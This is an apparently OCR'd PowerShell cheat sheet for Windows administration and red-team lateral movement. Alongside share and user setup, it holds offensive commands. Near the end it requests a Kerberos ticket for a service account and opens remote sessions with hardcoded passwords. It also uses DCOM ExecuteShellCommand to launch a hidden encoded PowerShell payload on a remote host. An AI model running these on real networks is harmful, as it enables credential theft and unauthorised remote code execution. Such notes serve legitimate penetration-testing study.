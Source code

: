 ```powershell
PS> New-SmbShare -Path C:\Users\TestUser\"TestShareFolder" -Name "TestShareFolder" -FullAccess 'Everyone'
## Specify the shared folder path and name
PS> $sharedFolderPath = 'C:\Users\TestUser\TestShareFolder'
PS> $shareName = 'TestShareName'
PS> $securityGroupName = 'TestGroup'
## Remove the default group from the share permissions
PS> Remove-SmbShare -Name $shareName -Force
## Create a new shared folder with specific permissions
PS> New-SmbShare -Path $sharedFolderPath -Name $shareName -ChangeAccess $securityGroupName -ReadAccess $securityGroupName
## Add the security group to the existing shared folder
### The Add-SmbShareAccess cmdlet is available on Windows Server editions and not on regular Windows client editions.
### If you are using a Windows client version, you can use the net share and icacls commands to achieve the same result.
PS> Add-SmbShareAccess -Name $shareName -AccountName $securityGroupName -AccessRight Change
PS> net share $shareName=$sharedFolderPath "/grant:$securityGroupName,change"
# Create a new local user
PS> New-LocalUser -Name $username -Password $password -FullName 'Test' -Description 'Description of the new user' -AccountNeverExpires
# local security group
PS> $groupName = 'TestNewGroup'
PS> New-LocalGroup -Name $groupName -Description 'Description of the new group'
PS> Add-LocalGroupMember -Group $groupName -Member 'TestUser'
# load credential to memory
PS> Add-Type -AssemblyName System.IdentityModel
PS> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "TestSvc/TestHost.hoge. local:1433"
# Shell
PS> $username = 'TestUser'
PS> $password = 'TestPassword'
PS> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
PS> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
PS> $Opt = New-CimSessionOption -Protocol DCOM
PS> $Session =  New-Cimsession -ComputerName TestComputerHost.HOGE.com -Credential $credential -SessionOption $Opt -ErrorAction Stop
# Shell
PS> $username = 'TestUser'
PS> $password = 'TestPassword'
PS> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
PS> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
PS> New-PSSession -ComputerName XXX.XXX.XXX.XXX -Credential $credential
# Shell
PS> $password = ConvertTo-SecureString "TestUser" -AsPlainText -Force
PS> $cred = new-object System.Management.Automation.PSCredential ("HOGE\TestUser", $password)
PS> Enter-PSSession -ComputerName TargetComputer -Credential $cred
# Shell
PS> $dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("TargetHost", "XXX.XXX.XXX.XXX"))
PS> $dcom.Document.ActiveView.ExecuteShellCommand("cmd", $null, "/c calc", "7")
PS> $dcom.Document.ActiveView.ExecuteShellCommand("powershell", $null, "powershell -nop -w hidden -e aaaaaaaaaa", "7")
# Workaround Kerberos "Double Hop" Problem
## Register PSSession Configuration
### When the session cannot access the DC directly using PowerView
### https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/register-pssessionconfiguration?view=powershell-7.2
PS> Enter-PSSession -ComputerName TargetComputer.HOGE.COM -Credential hoge\TestUser
Remote Accessed PS> klist
#### the result show you cannot access DC with the current credential status
PS> Register-PSSessionConfiguration -Name TestUserSession -RunAsCredential hoge\TestUser
#### restart the WinRM service
```
